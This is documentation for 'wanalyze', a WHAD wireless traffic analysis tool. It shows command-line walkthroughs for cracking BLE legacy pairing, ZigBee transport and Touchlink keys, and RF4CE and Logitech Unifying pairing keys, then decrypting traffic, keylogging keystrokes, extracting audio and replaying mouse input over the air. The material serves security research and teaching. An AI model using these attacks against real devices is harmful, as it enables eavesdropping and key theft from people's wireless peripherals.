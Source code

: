 wanalyze: generic traffic analysis tool
========================================

``wanalyze`` allows to analyze traffic from packets captured from sniffing or through
PCAP replay. It is based on several traffic analyzers, allowing to infer various information
from a stream of packets (e.g., decryption keys, profiles, audio stream, keystrokes...).
It is intended to be used chained with other WHAD tools.

Usage
-----

.. code-block:: text

    ... | wanalyze [OPTIONS] [ANALYZER]

By default, ``wanalyze`` will use all available traffic analyzers for the traffic linked to the used domain.
If provided, only the traffic analyzers provided as a series of expression ANALYZER will be applied.
For example, the following command will use all available BLE analyzers:

.. code-block:: text

  $ wplay --flush ressources/pcaps/ble_pairing.pcap | wanalyze

The following command will use only *"legacy_pairing_cracking"* and *"encrypted_session_initialization"*:

.. code-block:: text

  $ wplay --flush ressources/pcaps/ble_pairing.pcap | wanalyze legacy_pairing_cracking encrypted_session_initialization

It is also possible to select only a specific field of an analyzer output, using the expression ANALYZER.FIELD.
For example, the following command line will display only the Short-Term Key (STK) of the *"legacy_pairing_cracking"* analyzer:

.. code-block:: text

  $ wplay --flush ressources/pcaps/ble_pairing.pcap | wanalyze legacy_pairing_cracking.stk


Command-line options
^^^^^^^^^^^^^^^^^^^^

**wextract** supports the following options:

* ``--trigger``: display when an analyzer has been triggered
* ``--json``: serialize output into JSON format
* ``--packets`` (``-p``): display packets associated with the analyzer
* ``--label``: display labels before output value
* ``--delimiter`` (``-d`` / ``-D``): provide a delimiter inserted between outputs
* ``--raw`` (``-r``): dump output directly to stdout buffer (e.g., to process raw bytes)
* ``--list`` (``-l``): display a list of available analyzers

Displaying the available analyzers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

To display the list of available analyzers by domain, just use the ``--list`` (or ``-l``) option:

.. code-block:: text

    $ wanalyze -l
    Available analyzers:  ble
    - peripheral_information : adv_data, bd_addr, addr_type
    - encrypted_session_initialization : master_skd, master_iv, slave_skd, slave_iv, started
    - legacy_pairing_cracking : tk, stk
    - ltk_distribution : ltk, rand, ediv
    - irk_distribution : address, irk
    - csrk_distribution : csrk
    - profile_discovery : profile

    Available analyzers:  rf4ce
    - key_cracking : key
    - audio : raw_audio
    - keystroke : key

    Available analyzers:  unifying
    - pairing_cracking : key
    - mouse : x, y, wheel_x, wheel_y, button
    - keystroke : key

    Available analyzers:  zigbee
    - touchlink_key_cracking : key_index, encrypted_key, decrypted_key
    - transport_key_cracking : transport_key


Breaking encryption keys
-------------------------

It's quite common for wireless protocols to use weak pairing procedures, that can be attacked to recover the encryption keys.
WHAD provides various traffic analyzers allowing to perform such offline attacks, targeting various protocols.

Breaking Bluetooth Low Energy legacy pairing
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The first version of Bluetooth Low Energy pairing is flawed and is known to be vulnerable to CrackLE attack.
``wanalyze`` allows to easily retrieve encryption key if the pairing procedure has been captured and if legacy pairing was in use.

To perform this attack, you can use the *"legacy_pairing_cracking"* analyzer.
To demonstrate the attack, let's first download a PCAP file containing a vulnerable pairing:

.. code-block:: text

    wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/ble_pairing.pcap

We can easily replay this PCAP file using ``wplay`` tool, with option ``--flush`` to display all the traffic without taking into account the timestamps:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap
    [ raw=True, decrypted=False, timestamp=0, channel=37, rssi=-44, direction=0, connection_handle=0, is_crc_valid=True, relative_timestamp=0 ]
    <BTLE  access_addr=0x8e89bed6 crc=0xec6ba9 |<BTLE_ADV  RxAdd=public TxAdd=random ChSel=0 RFU=0 PDU_type=CONNECT_REQ Length=0x22 |<BTLE_CONNECT_REQ  InitA=63:5b:46:e8:b3:81 AdvA=74:da:ea:91:47:e3 AA=0xf5a6dd92 crc_init=0x852f0a win_size=0x2 win_offset=0x1 interval=0x24 latency=0x0 timeout=0x1f4 chM=0x1fffffffff SCA=0 hop=6 |>>>

    [ raw=True, decrypted=False, timestamp=341, channel=6, rssi=0, direction=1, connection_handle=0, is_crc_valid=True, relative_timestamp=0 ]
    <BTLE  access_addr=0x92dda6f5 crc=0x5509b6 |<BTLE_DATA  RFU=0 MD=0 SN=0 NESN=0 LLID=control len=9 |<BTLE_CTRL  opcode=LL_FEATURE_REQ |<LL_FEATURE_REQ  feature_set=le_encryption+conn_par_req_proc+ext_reject_ind+slave_init_feat_exch+le_ping+le_data_len_ext+ll_privacy+ext_scan_filter+le_2m_phy+rx_mod_idx+le_coded_phy+le_ext_adv+le_periodic_adv+ch_sel_alg |>>>>

    [ raw=True, decrypted=False, timestamp=4841, channel=12, rssi=0, direction=1, connection_handle=0, is_crc_valid=True, relative_timestamp=0 ]
    <BTLE  access_addr=0x92dda6f5 crc=0x5509b6 |<BTLE_DATA  RFU=0 MD=0 SN=0 NESN=0 LLID=control len=9 |<BTLE_CTRL  opcode=LL_FEATURE_REQ |<LL_FEATURE_REQ  feature_set=le_encryption+conn_par_req_proc+ext_reject_ind+slave_init_feat_exch+le_ping+le_data_len_ext+ll_privacy+ext_scan_filter+le_2m_phy+rx_mod_idx+le_coded_phy+le_ext_adv+le_periodic_adv+ch_sel_alg |>>>>

    [ raw=True, decrypted=False, timestamp=4871, channel=12, rssi=0, direction=2, connection_handle=0, is_crc_valid=True, relative_timestamp=0 ]
    <BTLE  access_addr=0x92dda6f5 crc=0xba762b |<BTLE_DATA  RFU=0 MD=0 SN=0 NESN=1 LLID=continue len=0 |>>

    [ raw=True, decrypted=False, timestamp=9341, channel=18, rssi=0, direction=1, connection_handle=0, is_crc_valid=True, relative_timestamp=0 ]
    <BTLE  access_addr=0x92dda6f5 crc=0x1c7b2b |<BTLE_DATA  RFU=0 MD=0 SN=1 NESN=1 LLID=continue len=0 |>>

    [...]

Let's analyze this traffic with our *"legacy_pairing_cracking"* analyzer:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap | wanalyze legacy_pairing_cracking                                                                                                                    ST 27   main 
    [✓] legacy_pairing_cracking → completed
      - tk:  00000000000000000000000000000000
      - stk:  f72fa81ee5e86708243e920107de31b9

The output indicates both the temporary key ("tk") and the Short-Term Key (stk).

The Short-Term Key is then used to encrypt the key distribution between the communicating devices.
Let's decrypt the traffic with ``wplay`` by using option ``-d`` (decrypt) and by providing the STK with option ``-k`` (keys):

.. code-block:: text

    $ wplay --flush ble_pairing.pcap -d -k f72fa81ee5e86708243e920107de31b9


Then, we can easily extract the various distributed keys using wanalyze on the decrypted stream:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap -d -k f72fa81ee5e86708243e920107de31b9 | wanalyze
    [...]
    [✓] ltk_distribution → completed
      - ltk:  2867a99de17e3548cc17cf16ef96050e
      - rand:  38a7dcd10a1a93c6
      - ediv:  29507

    [✓] irk_distribution → completed
      - address:  74:da:ea:91:47:e3
      - irk:  13c3a68f113b764cc8e73f55fc52c002

    [✓] csrk_distribution → completed
      - csrk:  c3062f93c91eef96354edcd70a1a0306

    [✓] ltk_distribution → completed
      - ltk:  8ec147a3b442e2ea77b3e98705f26ca8
      - rand:  51064044944874a2
      - ediv:  55664

    [✓] irk_distribution → completed
      - address:  64:a2:f9:be:de:f1
      - irk:  b3370bec1cef2ecec83a035478eba33a

    [✓] csrk_distribution → completed
      - csrk:  9581eb690fbb3b8dfeb97b7293917bd4

Extracting keys from ZigBee join procedure
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When a new device wants to join an existing ZigBee network, the Network Key will be transmitted over the air, encrypted with a pre-shared Transport Key.
Some Transport Key are publicly known, and can be used to decrypt the packet including the Network Key.

For example, Philips Hue uses the following Transport Key for their ZigBee networks: *81:42:86:86:5D:C1:C8:B2:C8:CB:C5:2E:5D:65:D1:B8*.

Let's download a PCAP file containing such procedure:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/zigbee_philips_hue_association.pcap


We can then replay and decrypt the traffic using ``wplay`` with ``-d`` (decrypt) option. We need to provide the transport key using ``-k`` (keys) option.

.. code-block:: text

    $ wplay --flush zigbee_philips_hue_association.pcap -d -k 81:42:86:86:5D:C1:C8:B2:C8:CB:C5:2E:5D:65:D1:B8

To extract the network key, we only need to use ``wanalyze`` and observe the output of the analyzer *"transport_key_cracking"*:

.. code-block:: text

    $ wplay --flush zigbee_philips_hue_association.pcap -d -k 81:42:86:86:5D:C1:C8:B2:C8:CB:C5:2E:5D:65:D1:B8 | wanalyze
    [✓] transport_key_cracking → completed
      - transport_key:  02398409245156e31d98a92157a8a66f


Breaking ZigBee touchlink protocol
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Touchlink commissioning protocol has been introduced in ZigBee 3.0, and allows to facilitate key provisioning in ZigBee network.
While the Touchlink protocol is supposed to use encrypted traffic to transport the Network Key, it relies on an AES key which has been leaked on twitter, allowing to retrieve the key exchanged using this method.
You can easily break Touchlink protocol using ``wanalyze`` tool. Let's first download a PCAP file containing Touchlink provisioning:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/zigbee_touchlink_provisioning.pcap

To break the key, let's replay the PCAP file using ``wplay`` with ``--flush`` option to ignore timestamps and combine it with ``wanalyze``:

.. code-block:: text

    $ wplay --flush zigbee_touchlink_provisioning.pcap | wanalyze                                                                                                                   SIGINT  ST 27   main 
    [✓] touchlink_key_cracking → completed
      - key_index:  4
      - encrypted_key:  7b9f58e4c50ef979437ecf5ba7c63853
      - decrypted_key:  0134fe9e66908714e694f1d28403eed6


You can then use the decrypted key to decrypt traffic by providing the key using ``-k`` option:

.. code-block:: text

    $ wplay --flush zigbee_touchlink_provisioning.pcap -d -k 0134fe9e66908714e694f1d28403eed6
    [...]

    [ decrypted=True, timestamp=3102611, channel=11, rssi=-45, is_fcs_valid=True, lqi=188 ]
    <Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=True fcf_ackreq=False fcf_pending=False fcf_security=False fcf_frametype=Data fcf_srcaddrmode=Short fcf_framever=0 fcf_destaddrmode=Short fcf_reserved_2=0 seqnum=227 fcs=0xc803 |<Dot15d4Data  dest_panid=0xc802 dest_addr=0xffff src_addr=0xf |<ZigbeeNWK  discover_route=1 proto_version=2 frametype=data flags=security destination=0xfffd source=0xf radius=12 seqnum=98 |<ZigbeeSecurityHeader  reserved1= extended_nonce=1 key_type=network_key nwk_seclevel=None fc=0x1018 source=00:0b:57:ff:fe:11:1a:2c key_seqnum=0 data=<ZigbeeAppDataPayload  frame_control= delivery_mode=group_addressing aps_frametype=data group_addr=0x512 cluster=0x6 profile=HA_Home_Automation src_endpoint=1 counter=243 |<ZigbeeClusterLibrary  reserved=0 disable_default_response=0 command_direction=0 manufacturer_specific=0 zcl_frametype=profile-wide transaction_sequence=3 command_identifier=read_attributes |<ZCLGeneralReadAttributes  attribute_identifiers=[0x0] |>>> |>>>>

    [ decrypted=False, timestamp=3129623, channel=11, rssi=-45, is_fcs_valid=True, lqi=188 ]
    <Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=True fcf_ackreq=True fcf_pending=False fcf_security=False fcf_frametype=Command fcf_srcaddrmode=Short fcf_framever=0 fcf_destaddrmode=Short fcf_reserved_2=0 seqnum=254 fcs=0x26b8 |<Dot15d4Cmd  dest_panid=0xc802 dest_addr=0xf src_addr=0x1 cmd_id=DataReq |>>

    [ decrypted=False, timestamp=3129677, channel=11, rssi=-46, is_fcs_valid=True, lqi=192 ]
    <Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=False fcf_ackreq=False fcf_pending=False fcf_security=False fcf_frametype=Ack fcf_srcaddrmode=None fcf_framever=0 fcf_destaddrmode=None fcf_reserved_2=0 seqnum=254 fcs=0xab49 |>

    [ decrypted=True, timestamp=3167748, channel=11, rssi=-45, is_fcs_valid=True, lqi=200 ]
    <Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=True fcf_ackreq=False fcf_pending=False fcf_security=False fcf_frametype=Data fcf_srcaddrmode=Short fcf_framever=0 fcf_destaddrmode=Short fcf_reserved_2=0 seqnum=228 fcs=0xb19 |<Dot15d4Data  dest_panid=0xc802 dest_addr=0xffff src_addr=0xf |<ZigbeeNWK  discover_route=0 proto_version=2 frametype=command flags=security+extended_src destination=0xfffc source=0xf radius=1 seqnum=102 ext_src=00:0b:57:ff:fe:11:1a:2c |<ZigbeeSecurityHeader  reserved1= extended_nonce=1 key_type=network_key nwk_seclevel=None fc=0x1019 source=00:0b:57:ff:fe:11:1a:2c key_seqnum=0 data=<ZigbeeNWKCommandPayload  cmd_identifier=link status res5=0 last_frame=1 first_frame=1 entry_count=0 |> |>>>>


Breaking RF4CE pairing procedure
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

RF4CE protocol uses a weak pairing procedure, that can be exploited to recover the encryption key by analyzing pairing traffic.

Let's download a PCAP file containing such weak pairing procedure:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/rf4ce_pairing_keystrokes_audio.pcap

Then, cracking the key is as simple as running the following command:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap | wanalyze
    [✓] key_cracking → completed
      - key:  48ca7e9fdbc168b0297dd97d4f7f85a8

We can then easily reuse this key with ``wplay`` to decrypt all the encrypted traffic:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8


Breaking Logitech Unifying pairing
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Wireless keyboards and mices from Logitech commonly relies on Logitech Unifying protocol (or one of its variants).
This protocol also uses a vulnerable pairing procedure, which can be attacked easily if the pairing packets have been captured.

You can use ``wsniff`` and ``-p`` option (pairing) to synchronize with the channel hopping algorithm and sniff a Logitech Unifying pairing:

.. code-block:: text

    $ wsniff -i uart0 unifying -p

Alternatively, you can download a PCAP file containing a captured pairing using the following command:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/logitech_pairing.pcap

And replay it using ``wplay``:

.. code-block:: text

    $ wplay --flush logitech_pairing.pcap


Recovering the key is then as simple as running ``wanalyze`` on the corresponding stream to perform the attack:

.. code-block:: text

    $ wplay --flush logitech_pairing.pcap | wanalyze
    [✓] pairing_cracking → completed
      - key:  02bea8b5ef61037e87882e4daebf403b

Then, let's use this key to decrypt some encrypted traffic. Download the PCAP file containing the encrypted traffic:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/logitech_encrypted_traffic.pcap

You can then use ``wplay`` with ``-d`` option (decrypt) and provide the key using ``-k`` (keys):

.. code-block:: text

    $ wplay --flush logitech_encrypted_traffic.pcap -d -k 02bea8b5ef61037e87882e4daebf403b
    [...]
    [ raw=True, decrypted=True, timestamp=50231, channel=0, is_crc_valid=True, address=a8:41:9e:b5:0f ]
    <ESB_Hdr  preamble=0xaa address_length=5 address=a8:41:9e:b5:0f payload_length=22 pid=2 no_ack=0 padding=0 valid_crc=yes crc=0xe235 |<Logitech_Unifying_Hdr  dev_index=0x0 frame_type=0xd3 checksum=0x81 |<Logitech_Encrypted_Keystroke_Payload  hid_data='\x00\x0b' unknown=201 aes_counter=3087930536 unused='' |>>>
    [...]
    [ raw=True, decrypted=True, timestamp=56916, channel=0, is_crc_valid=True, address=a8:41:9e:b5:0f ]
    <ESB_Hdr  preamble=0xaa address_length=5 address=a8:41:9e:b5:0f payload_length=22 pid=2 no_ack=0 padding=0 valid_crc=yes crc=0xd893 |<Logitech_Unifying_Hdr  dev_index=0x0 frame_type=0xd3 checksum=0xb1 |<Logitech_Encrypted_Keystroke_Payload  hid_data='' unknown=201 aes_counter=3087930537 unused='' |>>>
    [...]


Extract complex data from packet streams
-----------------------------------------

Various complex data can be extracted from packet stream, using various available analyzers.

Extracting Bluetooth Low Energy GATT profile
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If a discovery procedure has been captured, it's possible to use *"profile_discovery"* to recover the GATT profile.

For example, the following PCAP contain such a discovery procedure:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/ble_pairing.pcap

You can extract the discovered profile using:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap | wanalyze profile_discovery
    [✓] profile_discovery → completed
      - profile:  Service 1800 (handles from 1 to 11):
      Characteristic 2A00 (handle:2, value handle: 3, props: R)
      Characteristic 2A01 (handle:4, value handle: 5, props: R)
      Characteristic 2A02 (handle:6, value handle: 7, props: R)
      Characteristic 2A03 (handle:8, value handle: 9, props: W)
      Characteristic 2A04 (handle:10, value handle: 11, props: R)
    Service 1801 (handles from 12 to 15):
      Characteristic 2A05 (handle:13, value handle: 14, props: I)
        Descriptor 2902 (handle: 15)
    Service 180A (handles from 16 to 30):
      Characteristic 2A23 (handle:17, value handle: 18, props: R)
      Characteristic 2A24 (handle:19, value handle: 20, props: R)
      Characteristic 2A25 (handle:21, value handle: 22, props: R)
      Characteristic 2A26 (handle:23, value handle: 24, props: R)
      Characteristic 2A27 (handle:25, value handle: 26, props: R)
      Characteristic 2A28 (handle:27, value handle: 28, props: R)
      Characteristic 2A29 (handle:29, value handle: 30, props: R)
    Service a8b3fff0-4834-4051-89d0-3de95cddd318 (handles from 31 to 47):
      Characteristic a8b3fff1-4834-4051-89d0-3de95cddd318 (handle:32, value handle: 33, props: RW)
        Descriptor 2901 (handle: 34)
      Characteristic a8b3fff2-4834-4051-89d0-3de95cddd318 (handle:35, value handle: 36, props: R)
        Descriptor 2901 (handle: 37)
      Characteristic a8b3fff3-4834-4051-89d0-3de95cddd318 (handle:38, value handle: 39, props: W)
        Descriptor 2901 (handle: 40)
      Characteristic a8b3fff4-4834-4051-89d0-3de95cddd318 (handle:41, value handle: 42, props: N)
        Descriptor 2902 (handle: 43)
        Descriptor 2901 (handle: 44)
      Characteristic a8b3fff5-4834-4051-89d0-3de95cddd318 (handle:45, value handle: 46, props: R)
        Descriptor 2901 (handle: 47)
    Service a8b3ffe0-4834-4051-89d0-3de95cddd318 (handles from 48 to 57):
      Characteristic a8b3ffe1-4834-4051-89d0-3de95cddd318 (handle:49, value handle: 50, props: R)
        Descriptor 2901 (handle: 51)
      Characteristic a8b3ffe2-4834-4051-89d0-3de95cddd318 (handle:52, value handle: 53, props: RW)
        Descriptor 2901 (handle: 54)
      Characteristic a8b3ffe3-4834-4051-89d0-3de95cddd318 (handle:55, value handle: 56, props: W)
        Descriptor 2901 (handle: 57)
    Service f000ffc0-0451-4000-b000-000000000000 (handles from 58 to 65535):
      Characteristic f000ffc1-0451-4000-b000-000000000000 (handle:59, value handle: 60, props: WN)
        Descriptor 2902 (handle: 61)
        Descriptor 2901 (handle: 62)
      Characteristic f000ffc2-0451-4000-b000-000000000000 (handle:63, value handle: 64, props: WN)
        Descriptor 2902 (handle: 65)
        Descriptor 2901 (handle: 66)


If you want to use the profile in another tool, for example ``wble-periph``, you can easily format the output using the ``--json`` option:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap | wanalyze profile_discovery.profile --json
    {"services": [{"uuid": "1800", "type_uuid": "2800", "start_handle": 1, "end_handle": 11, "characteristics": [{"handle": 2, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 3, "uuid": "2A00"}, "descriptors": []}, {"handle": 4, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 5, "uuid": "2A01"}, "descriptors": []}, {"handle": 6, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 7, "uuid": "2A02"}, "descriptors": []}, {"handle": 8, "uuid": "2803", "properties": 8, "security": 0, "value": {"handle": 9, "uuid": "2A03"}, "descriptors": []}, {"handle": 10, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 11, "uuid": "2A04"}, "descriptors": []}]}, {"uuid": "1801", "type_uuid": "2800", "start_handle": 12, "end_handle": 15, "characteristics": [{"handle": 13, "uuid": "2803", "properties": 32, "security": 0, "value": {"handle": 14, "uuid": "2A05"}, "descriptors": [{"handle": 15, "uuid": "2902"}]}]}, {"uuid": "180A", "type_uuid": "2800", "start_handle": 16, "end_handle": 30, "characteristics": [{"handle": 17, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 18, "uuid": "2A23"}, "descriptors": []}, {"handle": 19, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 20, "uuid": "2A24"}, "descriptors": []}, {"handle": 21, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 22, "uuid": "2A25"}, "descriptors": []}, {"handle": 23, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 24, "uuid": "2A26"}, "descriptors": []}, {"handle": 25, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 26, "uuid": "2A27"}, "descriptors": []}, {"handle": 27, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 28, "uuid": "2A28"}, "descriptors": []}, {"handle": 29, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 30, "uuid": "2A29"}, "descriptors": []}]}, {"uuid": "a8b3fff0-4834-4051-89d0-3de95cddd318", "type_uuid": "2800", "start_handle": 31, "end_handle": 47, "characteristics": [{"handle": 32, "uuid": "2803", "properties": 10, "security": 0, "value": {"handle": 33, "uuid": "a8b3fff1-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 34, "uuid": "2901"}]}, {"handle": 35, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 36, "uuid": "a8b3fff2-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 37, "uuid": "2901"}]}, {"handle": 38, "uuid": "2803", "properties": 8, "security": 0, "value": {"handle": 39, "uuid": "a8b3fff3-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 40, "uuid": "2901"}]}, {"handle": 41, "uuid": "2803", "properties": 16, "security": 0, "value": {"handle": 42, "uuid": "a8b3fff4-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 43, "uuid": "2902"}, {"handle": 44, "uuid": "2901"}]}, {"handle": 45, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 46, "uuid": "a8b3fff5-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 47, "uuid": "2901"}]}]}, {"uuid": "a8b3ffe0-4834-4051-89d0-3de95cddd318", "type_uuid": "2800", "start_handle": 48, "end_handle": 57, "characteristics": [{"handle": 49, "uuid": "2803", "properties": 2, "security": 0, "value": {"handle": 50, "uuid": "a8b3ffe1-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 51, "uuid": "2901"}]}, {"handle": 52, "uuid": "2803", "properties": 10, "security": 0, "value": {"handle": 53, "uuid": "a8b3ffe2-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 54, "uuid": "2901"}]}, {"handle": 55, "uuid": "2803", "properties": 8, "security": 0, "value": {"handle": 56, "uuid": "a8b3ffe3-4834-4051-89d0-3de95cddd318"}, "descriptors": [{"handle": 57, "uuid": "2901"}]}]}, {"uuid": "f000ffc0-0451-4000-b000-000000000000", "type_uuid": "2800", "start_handle": 58, "end_handle": 65535, "characteristics": [{"handle": 59, "uuid": "2803", "properties": 28, "security": 0, "value": {"handle": 60, "uuid": "f000ffc1-0451-4000-b000-000000000000"}, "descriptors": [{"handle": 61, "uuid": "2902"}, {"handle": 62, "uuid": "2901"}]}, {"handle": 63, "uuid": "2803", "properties": 28, "security": 0, "value": {"handle": 64, "uuid": "f000ffc2-0451-4000-b000-000000000000"}, "descriptors": [{"handle": 65, "uuid": "2902"}, {"handle": 66, "uuid": "2901"}]}]}]}


It can easily be redirected to a file using a basic bash redirection:

.. code-block:: text

    $ wplay --flush ble_pairing.pcap | wanalyze profile_discovery.profile --json > profile.json

Extracting RF4CE keystrokes
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

RF4CE is commonly used by Remote Controllers (RC), and it's possible to implement a basic keylogger to retrieve pressed buttons.

For example, the following PCAP file contains such keystrokes:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/rf4ce_pairing_keystrokes_audio.pcap

Let's decrypt the traffic using the corresponding encryption key:


.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8


Then, the *"keystroke"* analyzer can be used to infer the keystrokes:


.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8 | wanalyze keystroke
    [✓] keystroke → completed
      - key:  7

    [✓] keystroke → completed
      - key:  0

    [✓] keystroke → completed
      - key:  6

    [✓] keystroke → completed
      - key:  1

    [✓] keystroke → completed
      - key:  2

    [✓] keystroke → completed
      - key:  3

    [✓] keystroke → completed
      - key:  4

    [✓] keystroke → completed
      - key:  5

    [✓] keystroke → completed
      - key:  6


You can display the keystroke without the analyzers information by selecting the key field:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8 | wanalyze keystroke.key
    7
    0
    6
    1
    2
    3
    4
    5
    6

Extracting RF4CE audio stream
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Some RF4CE Remote Controllers (RC) support audio commands. Such audio streams can be extracted using *"audio"* analyzers.

The following PCAP file contains such audio stream:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/rf4ce_pairing_keystrokes_audio.pcap

Let's decrypt the traffic using the corresponding encryption key:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8

Finally, we can extract the audio stream by using the *"audio"* analyzer:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8 | wanalyze audio
    [✓] audio → completed
      - raw_audio:  52494646e402010057415645666d74201000000001000100803e0000007d00000200100064617461c002010000 [...]

The displayed bytes corresponds to a WAV file. It can be easily dumped by :

  * selecting "raw_audio" field (``wanalyze audio.raw_audio``)
  * dumping raw bytes to stdout buffer (``--raw`` / ``-r``)

Let's play it:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8 | wanalyze audio.raw_audio --raw | play -

Or export it to a WAV file:

.. code-block:: text

    $ wplay --flush rf4ce_pairing_keystrokes_audio.pcap -d -k 48ca7e9fdbc168b0297dd97d4f7f85a8 | wanalyze audio.raw_audio --raw > stream.wav

Extracting Logitech Unifying mouse movements and clicks
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

``wanalyze`` can be used to extract mouse actions (movements & clicks) from Logitech Unifying mouse traffic.

For example, let's download a PCAP file corresponding to a capture of a Logitech mouse:

.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/logitech_mouse.pcap

If you use ``wanalyze`` on the corresponding packet stream, the *"mouse"* analyzer will be automatically triggered:

.. code-block:: text

    $ wplay --flush logitech_mouse.pcap | wanalyze
    [✓] mouse → completed
      - x:  0
      - y:  -1
      - wheel_x:  0
      - wheel_y:  0
      - button:

    [✓] mouse → completed
      - x:  0
      - y:  -2
      - wheel_x:  0
      - wheel_y:  0
      - button:

    [✓] mouse → completed
      - x:  1
      - y:  -3
      - wheel_x:  0
      - wheel_y:  0
      - button:

    [✓] mouse → completed
      - x:  0
      - y:  -2
      - wheel_x:  0
      - wheel_y:  0
      - button:
    [...]


Let's format the output to be used with ``wuni-mouse`` tool:

.. code-block:: text

    $ wplay --flush logitech_mouse.pcap | wanalyze mouse.x mouse.y mouse.wheel_x mouse.wheel_y mouse.button -d ","
    0,-1,0,0,
    0,-2,0,0,
    1,-3,0,0,
    0,-2,0,0,
    0,-2,0,0,
    1,-2,0,0,
    0,-2,0,0,
    1,-2,0,0,
    0,-2,0,0,
    1,-2,0,0,
    0,-2,0,0,
    0,-2,0,0,
    1,-2,0,0,
    0,-2,0,0,
    0,-2,0,0,
    1,-2,0,0,
    0,-1,0,0,
    0,-2,0,0,
    0,-2,0,0,
    [...]


Redirect it to a file:

.. code-block:: text

    $ wplay --flush logitech_mouse.pcap | wanalyze mouse.x mouse.y mouse.wheel_x mouse.wheel_y mouse.button -d "," > capture.mouse

You can then easily use it with ``wuni-mouse`` tool to replay mouse traffic over the air:

.. code-block:: text

    $ cat capture.mouse | wuni-mouse -i uart0 -a ca:e9:06:ec:a4
    Mouse found and locked, sending moves received on stdin...


Extracting Logitech Unifying keyboard keystrokes
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

It's also quite easy to implement a wireless keylogger targeting Logitech Unifying keyboard using ``wanalyze``.

As an example, let's download some traffic from a Logitech Unifying keyboard:


.. code-block:: text

    $ wget https://github.com/whad-team/whad-client/raw/main/ressources/pcaps/logitech_encrypted_traffic.pcap

You can then use ``wplay`` with ``-d`` option (decrypt) and provide the key using ``-k`` (keys):

.. code-block:: text

    $ wplay --flush logitech_encrypted_traffic.pcap -d -k 02bea8b5ef61037e87882e4daebf403b
    [...]
    [ raw=True, decrypted=True, timestamp=50231, channel=0, is_crc_valid=True, address=a8:41:9e:b5:0f ]
    <ESB_Hdr  preamble=0xaa address_length=5 address=a8:41:9e:b5:0f payload_length=22 pid=2 no_ack=0 padding=0 valid_crc=yes crc=0xe235 |<Logitech_Unifying_Hdr  dev_index=0x0 frame_type=0xd3 checksum=0x81 |<Logitech_Encrypted_Keystroke_Payload  hid_data='\x00\x0b' unknown=201 aes_counter=3087930536 unused='' |>>>
    [...]
